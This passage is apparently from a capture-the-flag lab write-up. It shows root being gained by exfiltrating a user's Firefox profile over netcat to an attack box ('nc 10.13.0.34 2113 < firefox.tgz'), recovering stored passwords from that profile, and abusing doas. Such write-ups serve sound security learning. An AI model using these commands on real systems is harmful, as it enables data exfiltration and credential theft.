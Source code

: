 ![](https://i.imgur.com/VLxLw3b.png)

Let's wait for a bit while Linpeas does it's thing.


If we look at one the findings returned by Linpeas, we see the there is a user named `v0id` which can apparently is permitted to run `doas` as root:

![](https://i.imgur.com/QaKWnNU.png)

If we scroll the Linpeas results a bit up, we'll see that doas is indeed available in the system:

![](https://i.imgur.com/dYYuseV.png)

If you remember when we find the user.txt flag we also saw a .firefox directory that I mention could be exploitable. We'll I think we need to look into that right now and see if it might contain the password of the username v0id. So let's navigate back to the home directory and see if we can get that folder back to our machine for further analysis:

We start by compressing that folder into a tgz file with this command: `tar -cvf firefox.tgz .firefox`

Now in our attack box we run a listener: `nc -nlvp 2113 > firefox.tgz`

And from the reverse shell session we send the file to our attack box using netcat as well: `nc 10.13.0.34 2113 < firefox.tgz`

![](https://i.imgur.com/i8NlTAb.png)

After a bit we should get that file in our kali machine. Which we unpack by running `tar xvf firefox.tgz .firefox`

Now we can just spin up firefox from the terminal specifying that profie we got and we should be able to see the stored credentials:

`firefox --profile .firefox/b5w4643p.default-release --allow-downgrade`

![](https://i.imgur.com/DFHUlgM.png)

And just like that we got v0id's password. Let's get back to our reverse shell and switch user. And then we just need to leverage `doas` to run as root and get the flag:

![](https://i.imgur.com/W1hucm5.png)

That's it we managed to complete the room, this was a very interesting one I've never exploited a firefox profile before so I definitely learned a new trick! Thanks for that room creator!


I hope you enjoy this one as much as I did, happy hacking!

tzero86.


{{< thm_badge >}}
